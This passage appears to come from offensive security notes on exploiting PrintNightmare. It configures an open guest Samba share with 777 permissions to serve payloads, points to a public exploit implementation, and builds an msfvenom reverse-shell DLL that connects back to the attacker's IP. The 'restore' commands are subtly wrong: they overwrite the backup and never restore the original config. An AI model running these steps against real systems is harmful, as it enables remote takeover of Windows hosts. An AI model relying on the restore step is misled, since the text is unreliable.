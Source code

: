 ```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
```

Overwite the file with the following content

```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /home/user/Documents/printnightmare/payloads/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody
```

Ensure the files are owned by nobody

```bash
sudo chown nobody:user -R /home/user/Documents/printnightmare/payloads/
sudo chmod -R 777 /home/user/Documents/printnightmare/payloads/
```

Restart the smbd service

```bash
sudo service smbd restart
```

Don’t forget to restore the SMB config and disable the service :)

```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
sudo service smbd stop
```

## Outflanks implementation

- [https://github.com/outflanknl/PrintNightmare](https://github.com/outflanknl/PrintNightmare)

Did not test this yet. But seems ‘better’ then the cube0x0 implementation.

## Create DLL

MSVenom if you think AV is not a problem. Otherwise build something custom.

### MSFVenom

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT TO LISTEN> -f dll -o /home/user/Documents/printnightmare/payloads/rev.dll
```

